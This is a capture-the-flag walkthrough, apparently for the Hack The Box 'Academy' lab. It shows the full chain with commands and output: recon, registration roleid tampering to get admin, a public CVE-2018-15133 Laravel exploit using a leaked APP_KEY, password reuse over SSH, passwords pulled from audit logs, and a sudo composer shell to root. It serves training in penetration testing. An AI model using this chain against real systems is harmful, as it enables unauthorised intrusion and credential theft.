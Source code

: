 # Academy

Academy is a easy HTB lab that focuses on web vulnerability, information disclosure and privilege escalation. In this walkthrough, we will go over the process of exploiting the services and gaining access to the root user.

<!-- toc -->

### Recon
The first step in any penetration testing process is reconnaissance. We can start by running nmap scan on the target machine to identify open ports and services.

```
$ sudo nmap -p- -sV -sC 10.129.72.136
Starting Nmap 7.93 ( https://nmap.org ) at 2024-01-30 11:02 GMT
Nmap scan report for 10.129.72.136
Host is up (0.087s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 c090a3d835256ffa3306cf8013a0a553 (RSA)
|   256 2ad54bd046f0edc93c8df65dabae7796 (ECDSA)
|_  256 e16414c3cc51b23ba628a7b1ae5f4535 (ED25519)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://academy.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
33060/tcp open  mysqlx?

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 211.61 seconds
```

Checking the website:
```
$ curl -I 10.129.72.136
HTTP/1.1 302 Found
Date: Tue, 30 Jan 2024 11:03:25 GMT
Server: Apache/2.4.41 (Ubuntu)
Location: http://academy.htb/
Content-Type: text/html; charset=UTF-8
```

Adding new domains found to `/etc/hosts`.
```
sudo tee --append /etc/hosts <<< "10.129.72.136 academy.htb"
```

Enumerating the files and folders on the website:
```
$ feroxbuster -u http://academy.htb/ -A -k -d 10 --filter-status 404 --smart --output web.txt -w /usr/share/wordlists/dirb/big.txt
200      GET      141l      226w     2627c http://academy.htb/login.php
200      GET      148l      247w     3003c http://academy.htb/register.php
200      GET       60l      123w     5261c http://academy.htb/images/logo.svg
200      GET       76l      131w     2117c http://academy.htb/
301      GET        9l       28w      311c http://academy.htb/images => http://academy.htb/images/
[####################] - 14s    40997/40997   0s      found:5       errors:0
[####################] - 12s    20482/20482   1644/s  http://academy.htb/
[####################] - 5s     20482/20482   3766/s  http://academy.htb/images/

$ feroxbuster -u http://academy.htb/ -A -k -d 10 --filter-status 404 --smart --output web.txt -w /opt/useful/SecLists/Discovery/Web-Content/raft-medium-files.txt
403      GET        9l       28w      276c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
404      GET        9l       31w      273c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       76l      131w     2117c http://academy.htb/
200      GET      141l      226w     2627c http://academy.htb/login.php
200      GET      148l      247w     3003c http://academy.htb/register.php
200      GET        0l        0w        0c http://academy.htb/config.php
200      GET       18l      188w     8276c http://academy.htb/images/logo.png
200      GET      141l      227w     2633c http://academy.htb/admin.php
200      GET       60l      123w     5261c http://academy.htb/images/logo.svg
200      GET       76l      131w     2117c http://academy.htb/index.php
200      GET      366l     2478w   164846c http://academy.htb/Modules_files/*
```

### Attack
We can see there are two login pages, assuming one `login.php` for user and another one `admin.php` for admin. There is also a `register.php` page to add new user.

```
POST /register.php HTTP/1.1
Host: academy.htb
Content-Type: application/x-www-form-urlencoded
Content-Length: 45

uid=test2&password=test&confirm=test&roleid=0
```

In this request, we can see a `roleid` which not there on the form. This paramater can be modified. Changed the roleId to 1 and it worked. Once the roleId was changed then we can login for that user on http://academy.htb/admin-page.php .

From the website after admin login, we geth following information:
* title - `Academy Launch Planner`
* `Fix issue with dev-staging-01.academy.htb`

Adding this new domain to list.
```
sudo tee --append /etc/hosts <<< "10.129.72.136 dev-staging-01.academy.htb"
```

Opening the website `dev-staging-01.academy.htb` shows us erros page. This page gives us following information:
* DOCUMENT_ROOT "/var/www/html/htb-academy-dev-01/public"
* SERVER_SOFTWARE "Apache/2.4.41 (Ubuntu)"
* APP_NAME "Laravel"
* APP_ENV "local"
* APP_KEY "base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0="
* APP_DEBUG "true"
* DB_CONNECTION "mysql"
* DB_HOST "127.0.0.1"
* DB_PORT "3306"
* DB_DATABASE "homestead"
* DB_USERNAME "homestead"
* DB_PASSWORD "secret"

Since the app key is leaked, searching online will show us that this website running is Laravel which is vulnerable to `CVE-2018-15133` exploit.
```
git clone https://github.com/aljavier/exploit_laravel_cve-2018-15133.git
cd exploit_laravel_cve-2018-15133
python3 pwn_laravel.py http://dev-staging-01.academy.htb dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0= --interactive

$ whoami
www-data
```

### User

Enumerating the machine:
```
$ ls /home
21y4d
ch4p
cry0l1t3
egre55
g0blin
mrb3n
```

Checking out the files and folder, we found somethig different in following `.env` file in `/var/www/html/academy/` folder.
```
DB_DATABASE=academy
DB_USERNAME=dev
DB_PASSWORD=my****************!!
```
Testing this password against all logins, we find that `cry0l1t3:my****************!!` works.

Getting the flag:
```
ssh cry0l1t3@academy.htb
my****************!!
$ cat user.txt
~~~~~~~~~~~~FLAG~~~~~~~~~~~~
```

### Privilege Escalation

Checking the id:
```
$ id
uid=1002(cry0l1t3) gid=1002(cry0l1t3) groups=1002(cry0l1t3),4(adm)
```
Looks like `cry0l1t3` is apart of `adm` so it should have access to logs.

Searching across all logs in `/var/log` folder using `grep -r pass .` but didn't find anything. We can try `aureport` tool to search through logs.
```
$ aureport --tty

TTY Report
===============================================
# date time event auid term sess comm data
===============================================
Error opening config file (Permission denied)
NOTE - using built-in logs: /var/log/audit/audit.log
1. 08/12/20 02:28:10 83 0 ? 1 sh "su mrb3n",<nl>
2. 08/12/20 02:28:13 84 0 ? 1 su "mrb3n_*******!",<nl>
3. 08/12/20 02:28:24 89 0 ? 1 sh "whoami",<nl>
4. 08/12/20 02:28:28 90 0 ? 1 sh "exit",<nl>
5. 08/12/20 02:28:37 93 0 ? 1 sh "/bin/bash -i",<nl>
...
10. 08/12/20 02:33:26 98 0 ? 1 sh "exit",<nl>
11. 08/12/20 02:33:30 107 0 ? 1 sh "/bin/bash -i",<nl>
12. 08/12/20 02:33:36 108 0 ? 1 bash "istory",<ret>,"history",<ret>,"exit",<ret>
13. 08/12/20 02:33:36 109 0 ? 1 sh "exit",<nl>
```

Got credentials - `mrb3n:mrb3n_*******!`

Relogin through ssh as `mrb3n` and then checking the `sudo -l` for the user:
```
$ sudo -l
[sudo] password for mrb3n: 
Matching Defaults entries for mrb3n on academy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer
```
From `https://gtfobins.github.io/gtfobins/composer/`, we got the following an attack path. Executing following commands give us root access:
```
$ TF=$(mktemp -d)
$ echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
$ sudo composer --working-dir=$TF run-script x
# id
uid=0(root) gid=0(root) groups=0(root)
```
Getting the flag:
```
# cat /root/root.txt
~~~~~~~~~~~~FLAG~~~~~~~~~~~~
```
